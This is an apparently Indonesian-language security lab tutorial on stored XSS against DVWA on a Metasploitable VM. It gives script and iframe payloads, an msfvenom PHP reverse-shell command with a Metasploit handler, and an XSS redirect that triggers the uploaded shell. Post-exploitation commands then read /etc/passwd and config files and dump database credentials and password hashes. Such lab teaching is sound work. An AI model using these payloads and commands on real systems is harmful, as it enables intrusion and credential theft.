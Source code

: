 ### Cross Site Scripting (XSS)

* Apa itu Cross Site Scripting?
  * Cross Site Scripting adalah tipe kelemahan sekuritas komputer yang biasa ditemukan.
  * XSS memungkinkan penyerang melakukan injeksi script ke dalam web app.
  * Script dapat mengakses cookies, session tokens, dan data sensitif.


| **Section 1: Atur popup ** |
| :--- |


1. Buka mozilla
2. Buka setting lalu content
3. Hapus centang di block popup windows

   * ![](/assets/lesson9/1.PNG)

| **Section 2: Login ke dalam DVWA** |
| :--- |


1. Buka browser
2. Login ke DVWA

   * Langkah**:**
     1. Buka firefox
     2. Masukkan ip metasploitable, contoh: [http://192.168.56.102/dvwa/login.php](http://192.168.56.102/dvwa/login.php).
     3. Login: admin
     4. Password: password
     5. Klik Login

| **Section 3: Tetapkan Tingkat Keamanan** |
| :--- |


1. Tetapkan tingkat keamanan DVWA

   * Langkah**:**  
     1. Klik bagian DVWA Security di menu bagian kiri.  
     2. Pilih "low"  
     3. Klik Submit

   * ![](/assets/lesson9/2.PNG)

| **Section 4: Stored Cross Site Scripting** |
| :--- |


1. Menu XSS stored

   * **Langkah:**
     1. Pilih "XSS Stored" dari menu bagian kiri.

2. Tes dasar XSS

   * **Langkah:**
     1. Masukkan data seperti berikut.
     2. Name : `Test 1`.
     3. Message : `<script>alert("This is a XSS Exploit Test")</script>`.
   * ![](/assets/lesson9/3.PNG)
   * ![](/assets/lesson9/4.PNG)


| **Section 5: XSS Stored Iframe Exploit** |
| :--- |


1. Reset Database

   * **Langkah:**
     1. Pilih setup pada menu bagian kiri
     2. klik tombol Create/Reset Database

   * ![](/assets/lesson9/5.PNG)

2. Iframe exploit

   * **Langkah:**
     1. Klik XSS Stored pada menu bagian kiri
     2. Masukkan data seperti berikut.
     3. Name : `Test 2`.
     4. Message : `<iframe src="http://www.cnn.com"></iframe>`
   * ![](/assets/lesson9/6.PNG)
   * ![](/assets/lesson9/7.PNG)

| **Section 6: XSS Stored COOKIE Exploit** |
| :--- |


  1. Reset Database

     * **Langkah:**
       1. Pilih setup pada menu bagian kiri
       2. klik tombol Create/Reset Database

     * ![](/assets/lesson9/8.PNG)

  2. Cookie exploit

     * **Langkah:**
       1. Klik XSS Stored pada menu bagian kiri
       2. Masukkan data seperti berikut.
       3. Name : `Test 3`.
       4. Message : `<script>alert(document.cookie)</script>`
     * ![](/assets/lesson9/9.PNG)
     * ![](/assets/lesson9/10.PNG)

| **Section 7: Membuat PHP Payload** |
| :--- |

  1. Membuat payload dengan msfvenom
     
     * **Langkah:**
       1. Buka terminal 
       2. `msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.56.101 LPORT=4444 -f raw > FORUM_BUG.php`
     * ![](/assets/lesson9/11.PNG)

  2. Edit file php

     * **Langkah:**
       1. Hapus `/*` pada awal kode.
       2. Tambahkan `?>` pada akhir kode.
     * ![](/assets/lesson9/12.PNG)

| **Section 8: Menggunakan PHP payload ** |
| :--- |

  1. Upload php payload 
  
     * **Langkah:**
       1. Pilih upload pada menu bagian kiri
       2. Pilih file
       3. Klik upload
     * ![](/assets/lesson9/13.PNG)

  2. Nyalakan msfconsole
  
     * **Langkah:**
       1. Buka terminal
       2. `msfconsole`
       3. `use exploit/multi/handler`
       4. `set payload php/meterpreter/reverse_tcp`
       5. `set LHOST 192.168.56.101'
       6. `set LPORT 4444`
       7. `exploit`
     * ![](/assets/lesson9/14.PNG)

  3. Reset Database

     * **Langkah:**
       1. Pilih setup pada menu bagian kiri
       2. klik tombol Create/Reset Database

     * ![](/assets/lesson9/8.PNG)

  4. Menjalankan payload

     * **Langkah:**

       1. Klik XSS Stored pada menu bagian kiri
       2. Inspect element, ubah maxLength textbox message menjadi 100
       3. Masukkan data seperti berikut.
       4. Name : `Test 4`.
       5. Message : `<script>window.location="http://192.168.1.106/dvwa/hackable/uploads/FORUM_BUG.php" </script>`
       6. Jalankan
     * ![](/assets/lesson9/16.PNG)
     
  5. Menjalankan shell

     * **Langkah:**

       1. `shell`
       2. `tail /etc/passwd`
       * ![](/assets/lesson9/17.PNG)
       3. `whoami`
       4. `grep apache /etc/passwd`
       5. `find /var/www/* -print | grep config`
       * ![](/assets/lesson9/18.PNG)
       6. `grep "db_" /var/www/html/dvwa/config/config.inc.php`
       * ![](/assets/lesson9/19.PNG)
       7. `echo "use dvwa; show tables;" | mysql -uroot -pdvwaPASSWORD`
       8. `echo "use dvwa; desc users;" | mysql -uroot -pdvwaPASSWORD`
       9. `echo "select user,password from dvwa.users;" | mysql -uroot -pdvwaPASSWORD`
       * ![](/assets/lesson9/20.PNG)

| **Section 9: Eksploitasi file konfigurasi  ** |
| :--- |

  1. Membuat file html
  
     * **Langkah:**
       1. `echo "<pre>" >> /var/www/html/dvwa/hackable/uploads/xss.html`
       2. `echo "select user,password from dvwa.users;" | mysql -uroot -pdvwaPASSWORD >> /var/www/html/dvwa/hackable/uploads/xss.html`
       3. `echo "</pre>" >> /var/www/html/dvwa/hackable/uploads/xss.html`
       4. `echo "<br>Your Name<br>" >> /var/www/html/dvwa/hackable/uploads/xss.html`
       5. `date >> /var/www/html/dvwa/hackable/uploads/xss.html`
     * ![](/assets/lesson9/21.PNG)

  2. Hasil
  
     * **Langkah:**
       1. Buka link berikut:
          ```
            http://192.168.56.102/dvwa/hackable/uploads/xss.html
          ```
     * ![](/assets/lesson9/22.PNG)
